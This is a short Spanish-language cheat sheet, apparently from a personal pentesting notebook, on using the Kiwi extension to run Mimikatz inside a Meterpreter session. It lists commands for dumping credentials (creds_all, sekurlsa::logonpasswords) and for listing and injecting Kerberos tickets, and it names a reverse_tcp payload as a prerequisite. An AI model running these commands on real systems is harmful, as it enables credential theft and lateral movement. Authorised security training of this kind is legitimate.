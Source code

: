 
# 🐥 Kiwi - Mimikatz embebido en Meterpreter

**Kiwi** es una extensión de Meterpreter que permite utilizar funcionalidades de [Mimikatz](mimikatz.md) directamente desde una sesión de **Metasploit**, sin necesidad de subir binarios ni ejecutar herramientas externas.

---

## 🎯 ¿Qué permite hacer?

Una vez cargada la extensión, te brinda comandos similares a los de Mimikatz para:

- Extraer credenciales (plaintext, NTLM, LM, SHA1)
- Volcar credenciales de sistemas Kerberos
- Inyectar tickets Kerberos
- Enumerar sesiones y usuarios conectados
- Elevar privilegios o duplicar tokens

---

## 🚀 ¿Cómo se usa?

1. **Desde una sesión de `meterpreter`:**

```bash
meterpreter > load kiwi
````

2. **Extraer todas las credenciales (como en la imagen):**
    

```bash
meterpreter > creds_all
```

3. **Listar usuarios conectados:**
    

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

---

## 📌 Comandos útiles

|Comando|Descripción|
|---|---|
|`load kiwi`|Carga la extensión|
|`creds_all`|Extrae credenciales de todas las fuentes|
|`kiwi_cmd sekurlsa::logonpasswords`|Ejecuta Mimikatz desde Meterpreter|
|`kiwi_cmd kerberos::list`|Lista tickets Kerberos|
|`kiwi_cmd kerberos::ptt`|Inyecta tickets|
|`kiwi_cmd sekurlsa::tickets`|Muestra tickets activos|

---

## 🔐 Requisitos

- Acceso como **Administrador** o **SYSTEM**
    
- Tener una sesión **Meterpreter activa** (ideal: `windows/x64/meterpreter/reverse_tcp`)
    

---

> 🛑 **Nota legal:** El uso de Kiwi está limitado a entornos controlados con consentimiento explícito. Utilizarlo sin autorización es ilegal.

[[apuntes/herramientas/herramientas]]